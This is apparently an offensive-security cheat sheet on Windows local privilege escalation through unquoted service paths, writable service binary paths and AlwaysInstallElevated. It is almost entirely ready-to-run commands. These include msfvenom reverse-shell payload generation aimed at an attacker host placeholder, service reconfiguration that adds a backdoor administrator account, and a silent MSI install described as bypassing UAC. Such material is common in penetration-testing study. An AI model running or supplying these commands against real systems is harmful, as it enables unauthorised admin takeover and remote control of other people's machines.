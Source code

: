 ```shell
# Find a service with an unquoted path
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
# We can validate with the following
sc qc [service name]
# Lets check for permissions on a specific directory
icacls [Directory]
# Since we have permissions on C:\Program Files\Program, we can create a .exe there
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=[LHOST IP] LPORT=443 -f exe -o Some.exe
# Restart the service 
sc stop [service]
sc start [service]
### Can be exploited with exploit/windows/local/trusted_service_path Metasploit module
```

## Modifying binary service path

Similar to unquoted service path, we can modify the service binary path.

```shell
# Display services that can be modified by an authenticated user type
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
# Success will look like RW [service] SERVICE_ALL_ACCESS
# Show the service properties
sc qc [service]
# Change the binary path and restart the service to activate
sc config [service] binpath= "malicious executable path"
sc stop [service name]
sc start [service name]
# Can also add new users and grant permissions
sc config [service] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
# Can also exploit with exploit/windows/local/service_permissions
```

## AlwaysInstallElevated

Allows non-privileged users to install Microsoft Windows Installer Package Files with elevated permissions.
This could be exploited to install a malicious package with admin permissions. To achieve this, we must set two registry entries:

```shell
# Both of these must be set to 1 to function
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Use msfvenom to create a payload
msfvenom -p windows/adduser USER=admin PASS=password -f msi -o filename.msi
# Alternatively create a reverse shell
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP] LPORT=443 -f msi -o filename.msi
# Run the installer
msiexec /quiet /qn /i C:\Users\filename.msi
# /quiet bypasses UAC; /qn doesnt use GUI, /i performs regular installation
# Exploit with Metasploit with exploit/windows/local/always_install_elevated
```
